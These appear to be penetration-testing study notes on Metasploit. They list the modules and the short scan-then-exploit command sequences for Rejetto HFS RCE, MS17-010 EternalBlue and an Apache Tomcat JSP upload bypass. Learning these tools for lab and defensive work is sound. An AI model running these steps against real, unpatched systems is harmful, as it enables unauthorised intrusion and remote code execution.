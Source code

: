 ## HTTP File Server
- Port 80
- For file & document sharing
- Rejetto HFS v2.3 vulnerable to RCE
- Module Name: `exploit/windows/http/rejetto_hfs_exec`

## MS17-010 SMB Vulnerability
- Aka Eternal Blue
- Afects
	- Windows Vista
	- 7
	- Server 2008
	- 8.1
	- Server 2012
	- 10
	- Server 2016
- It is patched but still many running without patch
- Can crash the target machien as well
- Steps
	```
	> db_nmap -sS -sV -O <target_ip>
	> services
	> search type:auxiliary EternalBlue
	> use auxiliary/scanner/smb/smb_ms17_010
	> use exploit/windows/smb/ms17_010_eternalblue
	> run
	```

## WinRM
![[Modules#WinRM]]

## Apache Tomcat
- Port 8080
- Apache HTTP web server --> PHP
- Apache tomacat --> Java
- Apache Tomcat v8.5.19 vulnerable to RCE
- Exploit
	```
	> db_nmap -sS -sV -O <ip>
	> services
	> search apache tomcat
	> use exploit/multi/http/tomcat_jsp_upload_bypass
```
